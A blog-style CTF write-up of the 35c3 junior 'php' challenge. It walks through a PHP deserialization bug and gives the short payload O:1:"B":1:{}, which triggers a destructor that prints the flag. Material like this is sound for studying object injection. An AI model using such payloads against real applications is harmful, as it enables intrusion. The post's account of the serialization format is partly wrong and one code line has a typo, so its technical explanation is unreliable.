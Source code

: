 ```yaml
---
layout: post
title: "35c3c php challenge write up"
categories: writeup web
---
```


# 35c3c CTF: php
I recently participated in the 35c3c ctf. I have enough time to do a quick write up
and this vulnerability class is intreging to me.
## First impressions
When first downloading the included file there is a tar archive with one file.
The file is a simple php script (the game ran it on a nc server). Opening up the file I can clearly
see the vaulnarability. Its contents are as follows.

{% highlight php %}
<?php
line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
?>

{% endhighlight %}

The vulnerability is a deserialization bug. That when done right allows us too get the flag.

## Exploitation
This bug is fairly simple to exploit. Since we have source code that we can modify we can echo out to the screen the serialized string of a instance of `class B`.
We do that by modifying the code to this.
{% highlight php %}
<?php

$line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}
$f = new B();
echo serialize($f);
$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
?>

{% endhighlight %}

We then run `php php.php` and get the serialized string. `O:1:"B":0:{}`. To actually get the program to print the flag
we have to change the `0` in the serialized string too a `1`. After that you run the program and paste in `O:1:"B":1:{}` into stdin.
The program responds with the flag text.

## How this works.
### Magic methods and deserilization bugs
This is a deserilization bug. A deserilization bug occurs when serialized objects are managed incorrectly.
So when the code calls `unserialize()` on a line from stdin it is inherently trusting the user to supply a serialized object.
That is part one of the vulnerability, what makes deserilization bugs dangerous is the second part. Look at `class B`, specifically the `__destruct` method.
`__destruct` is a magic method or a method that is run without being called by the programer. In this case it is called when the object is deleted when the runtime determines that the object is nolonger needed.
By having control over the string that gets passed too `unserialize` we can create a new instance of `class B` and control its inputs.

### Php object serialization syntax
This part is something that you need to have a tiny understading of, but not a large one.
Our exploit for the serialized object is `O:1:"B":1:{}` but the program prints out `O:1:"B":0:{}` when echo out the serialized text.
To put this simply the string starts with an `O` for object then is followed by a `:` which acts a seperator. The number after the separator is the number of arguments that `class B` takes. After that we have a `"B"` which means its a `class B` object. Followed by another seperator and then the "magic" part.
This number is the amount values in `class B`. When we call `serialize` on our instance of `class B` it removes the global variable from the serialized text. By manually manipulating that value from a `0` to a `1` we are able to have our object recognized the global variable.
If you want a more indepth explination of php serialization check out [php internals][ref].


[ref]: http://www.phpinternalsbook.com/classes_objects/serialization.html
